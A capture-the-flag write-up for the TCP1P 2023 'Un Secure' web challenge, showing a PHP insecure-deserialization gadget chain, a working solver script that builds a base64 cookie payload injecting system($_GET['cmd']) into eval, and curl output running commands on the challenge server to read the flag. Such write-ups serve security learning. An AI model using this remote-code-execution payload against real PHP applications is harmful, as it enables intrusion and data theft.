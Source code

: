 # Un Secure

## Description

> Tag: web, php, unserialize
>
> Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? It can cause Remote Code Execution. And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.
>
> <http://ctf.tcp1p.com:45678>
>
> Attachment: dist.zip

## Flag

TCP1P{unserialize in php go brrrrrrrr ouch}

## Solution

index.php

```php
<?php
require("vendor/autoload.php");

if (isset($_COOKIE['cookie'])) {
    $cookie = base64_decode($_COOKIE['cookie']);
    unserialize($cookie);
}

echo "Welcome to my web app!";
```

There is Insecure Deserialization vulnerability, so I see if I can use existing class for Gadget Chain.

Looking at interested autoload class:

- src/GadgetOne/Adders.php
- src/GadgetTwo/Echoers.php
- src/GadgetThree/Vuln.php

Since it is possible to execute arbitrary command in the `__toString()` method of `\GadgetThree\Vuln` class, so I develop Gadget Chain.

Gadget Chain:

1. call `__destruct()` of `\GadgetTwo\Echoers`
1. call `get_x()` of `\GadgetOne\Adders`
1. return instance of `\GadgetThree\Vuln`
1. call `__toString()` of `\GadgetThree\Vuln` because `echo` in `__destruct()` of `\GadgetTwo\Echoers`

solver.php

```php
<?php

namespace GadgetOne {
    class Adders
    {
        private $x;
        function __construct($x)
        {
            $this->x = $x;
        }
        // original:
        // function get_x()
        // {
        //     return $this->x;
        // }
    }
}

namespace GadgetThree {

    class Vuln
    {
        public $waf1 = 1;
        public $waf2 = "\xde\xad\xbe\xef";
        public $waf3 = false;
        public $cmd =  "system(\$_GET['cmd']);";

        // original:
        // function __toString()
        // {
        //     if (!($this->waf1 === 1)) {
        //         die("not x");
        //     }
        //     if (!($this->waf2 === "\xde\xad\xbe\xef")) {
        //         die("not y");
        //     }
        //     if (!($this->waf3) === false) {
        //         die("not z");
        //     }
        //     eval($this->cmd);
        // }
    }
}


namespace GadgetTwo {
    class Echoers
    {
        public $klass;

        // original:
        // function __destruct()
        // {
        //     echo $this->klass->get_x();
        // }
    }
}



namespace {
    $gdt3 = new \GadgetThree\Vuln();
    $gdt1 = new \GadgetOne\Adders($gdt3);

    $gdt2 = new \GadgetTwo\Echoers();
    $gdt2->klass = $gdt1;

    echo base64_encode(serialize($gdt2)) . PHP_EOL;
}
```

```console
root@kali:~/ctf/TCP1PCTF_2023/web/Un_Secure# cookie=$(php solver.php)

root@kali:~/ctf/TCP1PCTF_2023/web/Un_Secure# curl http://ctf.tcp1p.com:45678/?cmd=ls -H "Cookie: cookie=${cookie}"
182939124819238912571292389218129123.txt
composer.json
composer.lock
index.php
src
vendor
(snip)
root@kali:~/ctf/TCP1PCTF_2023/web/Un_Secure# curl http://ctf.tcp1p.com:45678/?cmd=cat+182939124819238912571292389218129123.txt -H "Cookie: cookie=${cookie}"
TCP1P{unserialize in php go brrrrrrrr ouch}
(snip)
```
